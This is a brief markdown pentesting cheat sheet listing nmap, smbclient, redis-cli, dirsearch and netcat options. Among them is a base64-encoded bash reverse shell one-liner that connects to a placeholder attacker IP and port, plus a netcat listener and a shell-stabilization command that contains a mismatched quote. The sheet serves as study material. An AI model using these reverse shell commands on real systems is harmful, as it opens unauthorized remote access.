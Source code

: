 # 💻🔐 Cybersecurity
Recopilation of usefull information for pentesting.  
 
nmap
---
```-sV``` : service version detection  
```-sC``` : scan with default scripts, vulnerability detection, service enumeration, and more...  
```-v``` : verbose mode  
```-p-``` : scan all ports, specifies a range of ports from 1 to 65535  
```-T5``` :  timing template for the scan, attempt to scan as fast as possible  

bash
---
```echo "bash -i >& /dev/tcp/YourIp/YourPort 0>&1" | base64 -w 0``` encoding a Bash reverse shell payload using base64

smbclient
---
```//address/Workspace``` : SMB share location  
```-U Username``` : connect to the SMB with the given username  
```-N``` : no password should be provided for authentication  
#### client session
```ls``` : list files  
```cd DirName``` : change dir  
```get FileName``` : downloads the file  
```put FileName``` : upload the file  
```del FileName``` : deletes the file  
```mkdir DirName``` : create dir  
```rmdir DirName``` : delete dir  
```quit``` : Exit SMB client  

redis-cli
---
```-h HOST``` : host address of the Redis server you want to connect to  

python3 dirsearch
---
```-u TargetURL``` : specify the target URL to scan  

netcat
---
```nc -nvlp PORT``` start a listening service on port

shell-stabilization
---
```python3 -c "import pty; pty.spawn('/bin/bash)"``` prevents you from killing your reverse shell and adds proper shell functionalities


